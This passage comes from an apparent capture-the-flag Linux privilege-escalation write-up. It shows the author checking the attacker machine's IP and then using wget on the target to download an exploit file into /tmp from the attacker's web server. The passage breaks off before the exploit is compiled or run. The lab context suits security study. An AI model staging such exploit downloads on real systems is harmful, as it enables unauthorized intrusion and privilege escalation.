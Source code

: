 <img src="/assets/images/thm/linux/linuxprivesc-09-webserver.PNG">


### Transferring and Executing the Exploit on the Target VM

First, I verified my **Kali VM's IP address** using the `ifconfig` command. My IP was `10.2.119.123`.

```bash
ifconfig
```

<img src="/assets/images/thm/linux/linuxprivesc-10.PNG">


### Downloading the Exploit on the Target Machine

On the target VM, I navigated to the /tmp directory since it is typically world-writable. Then, I downloaded the exploit from my Kali machine’s Python web server:


```bash
cd /tmp
wget http://10.2.119.123:8080/37292.c
```
